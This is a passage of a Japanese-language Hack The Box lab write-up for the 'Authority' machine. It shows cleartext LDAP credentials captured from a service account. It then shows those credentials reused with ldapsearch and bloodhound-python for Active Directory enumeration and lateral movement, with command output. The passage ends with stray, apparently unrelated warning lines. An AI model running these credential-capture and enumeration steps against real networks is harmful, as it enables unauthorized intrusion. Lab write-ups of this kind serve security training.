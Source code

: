 ```sh
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.59.172
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.129.59.172
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
```

LDAPで本当に使えるのか試す
- 使えそう
```sh
┌──(kali㉿kali)-[~/Desktop/HTB/machine/Authority]
└─$ LDAPTLS_REQCERT=never ldapsearch -x -H ldaps://authority.htb.corp \
  -D "CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb" \
  -w 'lDaP_1n_th3_cle4r!' \
  -b "DC=authority,DC=htb" \
  "(objectClass=*)"
# extended LDIF
#
# LDAPv3
# base <DC=authority,DC=htb> with scope subtree
# filter: (objectClass=*)
# requesting: ALL
#

# authority.htb
dn: DC=authority,DC=htb
objectClass: top
objectClass: domain
objectClass: domainDNS
distinguishedName: DC=authority,DC=htb
instanceType: 5
<SNIP>

```



# Lateral Movement
## BloodHound
BloodHoundを使って、横展開する
bloodHoundのために情報集める
```bash
└─$ sudo bloodhound-python \
  -u 'svc_ldap' \
  -p 'lDaP_1n_th3_cle4r!' \
  -ns 10.129.59.172 \
  -d authority.htb \
  -c all
[sudo] password for kali: 
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: authority.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (authority.authority.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: authority.authority.htb
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
INFO: Found 1 domains
INFO: Found 1 domains in the forest
```

[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: No inventory was parsed, only implicit localhost is available